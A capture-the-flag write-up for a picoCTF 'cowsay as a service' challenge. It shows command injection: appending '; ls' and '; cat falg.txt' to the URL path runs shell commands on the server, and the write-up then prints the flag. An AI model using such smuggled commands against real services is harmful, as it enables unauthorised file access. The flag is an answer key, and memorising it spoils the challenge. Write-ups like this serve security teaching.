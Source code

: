# Play Nice
## Description:
Now presenting [cowsay as a service](https://caas.mars.picoctf.net/)
## Solution:
Following the link takes you to a website that displays:
```
Make a request to the following URL to cowsay your message:
https://caas.mars.picoctf.net/cowsay/{message}
```
Replacing '{message}' part of the URL takes you to a webpage that looks like this:
```
 _______
< hello >
 -------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```
Using this property, you can list down the files using the CLI command ls by typing something like the following in the URL bar:
```
https://caas.mars.picoctf.net/cowsay/hello;%20ls
```
The resulting webpage looks like this:
```
 _______
< hello >
 -------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```
 Now that we have located the flag file- falg.txt, we can use the 'cat' command to print out the contents of falg.txt
 ```
 https://caas.mars.picoctf.net/cowsay/hello; cat falg.txt
 ```
 ## Answer
 The website prints out the message:
 ```
 picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
 ```

